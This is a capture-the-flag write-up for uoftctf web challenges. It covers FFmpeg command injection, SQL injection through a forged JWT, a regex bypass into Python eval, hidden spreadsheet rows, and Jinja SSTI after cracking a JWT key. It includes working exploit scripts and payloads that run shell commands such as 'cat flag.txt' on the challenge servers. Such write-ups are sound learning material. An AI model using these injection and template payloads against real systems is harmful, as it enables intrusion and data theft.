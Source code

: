 | Name       | uoftctf                |
|------------|------------------------|
| URL        | [https://play.uoftctf.org/](https://play.uoftctf.org/) |
| Category   | Web                    |
| Discord    | [https://discord.com/invite/VAwyzVUt?utm_source=Discord%20Widget&utm_medium=Connect](https://discord.com/invite/VAwyzVUt?utm_source=Discord%20Widget&utm_medium=Connect) |



# 1. Voice Changer - OS Injection

This website uses FFmpeg to generate an OGG file. In this challenge, an OS injection vulnerability exists in the FFmpeg command.

![OS Injection Image](https://github.com/ACHUX21/Writeups/assets/130113878/322e6697-62b4-4cd8-98a5-86d031085db1)

Let's attempt to induce a delay in the command using `$(sleep 10)`.

![Sleep Command Image](https://github.com/ACHUX21/Writeups/assets/130113878/f7cdcc2c-f1d7-4bb5-aa2c-2ccb9d20d107)

The image reveals a 10-second delay resulting from the execution of the sleep command.

### Exploiting the Vulnerability

To exploit this vulnerability, our approach involves redirecting the flag to our webhook site:

![Webhook Image 1](https://github.com/ACHUX21/Writeups/assets/130113878/cb206e1e-dde5-4c64-8164-0c299ddf5788)

![Webhook Image 2](https://github.com/ACHUX21/Writeups/assets/130113878/4889fc03-f67a-4055-8316-86212077eb6c)

# 2. The Varsity 

### Solution:
To address the issue, generate a valid (JWT) and proceed by sending a POST request to article number 9 with this json {"issue":"9'"}

```python
import requests

url = "https://uoftctf-the-varsity.chals.io:443/register"
json={"username": "achuxer"}
reg = requests.post(url, json=json)

valid_jwt = reg.headers["Set-Cookie"].split("=")[1].split(";")[0]

session = requests.session()

_url = "https://uoftctf-the-varsity.chals.io:443/article"
_cookies = {"token": valid_jwt}
_json={"issue": "9'"}
flag = session.post(_url, cookies=_cookies, json=_json)

print(flag.json()["content"])
```

# No Code - Eval

### Source
```python
from flask import Flask, request, jsonify
import re

app = Flask(__name__)

@app.route('/execute', methods=['POST'])
def execute_code():
    code = request.form.get('code', '')
    if re.match(".*[\x20-\x7E]+.*", code):
        return jsonify({"output": "jk lmao no code"}), 403
    result = ""
    try:
        result = eval(code)
    except Exception as e:
        result = str(e)

    return jsonify({"output": result}), 200

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=1337, debug=False)
```
### Solution

Sending \n in the start of your payload cz re.match() will only match at the beginning of the string and not at the beginning of each line.

```python
#!/usr/bin/env python3
import requests
import string,sys
url = 'https://uoftctf-no-code.chals.io/execute'

payload = "\n__import__('os').popen('cat flag.txt').read()"

data = {
    'code': payload
}
response = requests.post(url, data=data)
print(response.text)
```


# Guestbook - Hidden Flag

By reading the html source you can see POST action directed towards a Google Spreadsheet with the parameter "sheetID"

![image](https://github.com/ACHUX21/Writeups/assets/130113878/e5c48610-12d1-4f6f-9dbc-66d4a693d78a)

After googling around,with this id you can obtain spreadsheet docs.

https://docs.google.com/spreadsheets/d/1PGFh37vMWFrdOnIoItnxiGAkIqSxlJDiDyklp9OVtoQ/edit

Following this step, you can notice two hidden rows. Once I copied the doc, I had access to the flag

#  My First App - JWT / SSTI

Solution :
  Initially, you must crack a JWT to reveal the jwt_key. Furthermore, there's an SSTI in the username field from the JWT-cookie, but with certain blacklisted characters/words.
  
  ![image](https://github.com/ACHUX21/Writeups/assets/130113878/ebca8511-d882-427b-aba0-65607fcbb5cd)

  
 ### PY:

  ```python
  #!/usr/bin/env python3
import jwt
import requests
from bs4 import BeautifulSoup

secret_key = 'torontobluejays'
username = """
{{lipsum|attr(request.referrer.split().pop(0))|attr(request.referrer.split().pop(1))(request.referrer.split().pop(2))|attr(request.referrer.split().pop(3))(request.referrer.split().pop(4))|attr(request.referrer.split().pop(5))()}}
"""
pay = """__globals__ __getitem__ os popen cat${IFS}flag.txt read """


def genJWT(username):
    payload = {
        "username": username,
}
    token = jwt.encode(payload, secret_key, algorithm='HS256')
    return token


jwt_token = genJWT(username)
print(jwt_token)

url = "https://uoftctf-my-first-app.chals.io:443/?test="
cookies = {"auth_token": jwt_token}

headers = {"referer": pay}
response = requests.get(url,headers=headers, cookies=cookies)
#response = requests.get(url,headers=headers, cookies=cookies, proxies=proxies)
cont = response.text


s = BeautifulSoup(cont, 'html.parser')
cov = s.find('div', class_='container')

if cov:
    print(cov.prettify())
else:
    print(cont)
```
